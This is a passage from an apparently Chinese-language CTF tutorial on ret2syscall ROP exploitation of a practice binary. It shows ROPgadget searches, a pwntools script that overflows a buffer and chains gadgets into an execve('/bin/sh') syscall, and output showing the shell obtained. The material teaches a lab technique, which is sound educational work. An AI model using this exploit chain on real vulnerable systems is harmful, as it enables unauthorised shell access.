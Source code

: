 我们选择`0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret` 因为3个都含有了
在接着我们去寻找`/bin/sh`字符串
```bash
[ 10:39下午 ]  [ root@pgone:~/Rep ]
 $ ROPgadget --binary rop  --string '/bin/sh' 
Strings information
============================================================
0x080be408 : /bin/sh
```
我们使用``0x080be408 : /bin/sh``

最后我们去寻找int 0x80
```bash
[ 10:40下午 ]  [ root@pgone:~/Rep ]
 $ ROPgadget --binary rop  --only 'int'        
Gadgets information
============================================================
0x08049421 : int 0x80
Unique gadgets found: 1
```
我们就使用``0x08049421 : int 0x80``

所以我们构成payload
``addr_pop_eax + 0xb + addr_pop_ebx_ecx_edx + addr_str_binsh + 0 + 0 + addr_int0x80``
最后附上脚本
```python
#!/usr/bin/python
from pwn import *
sh = process('./rop')
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80]) //使用flat去整合这些是因为用一个加一个的话需要转变为32位参数(p32) 太过于麻烦
sh.sendline(payload)
sh.interactive()
```
执行
```bash
[ 10:44下午 ]  [ root@pgone:~/Rep ]
 $ python flag.py 
[+] Starting local process './rop': pid 4781
[*] Switching to interactive mode
This time, no system() and NO SHELLCODE!!!
What do you plan to do?
$ ls
1              libc-2.23.so              ret2shellcode
ROPgadget-master      peda-session-hash.txt          ret2text
ROPgadget-master.zip  peda-session-ret2shellcode.txt  rop
flag.py              peda-session-ret2text.txt       ropbaby
hash              peda-session-uaf.txt          uaf
$ pwd
/root/Rep
```

例子:https://pan.baidu.com/s/1wL4gDjjBT773_lSt8GqrMQ 提取码: dxx9
资料来源:
https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic_rop/
https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8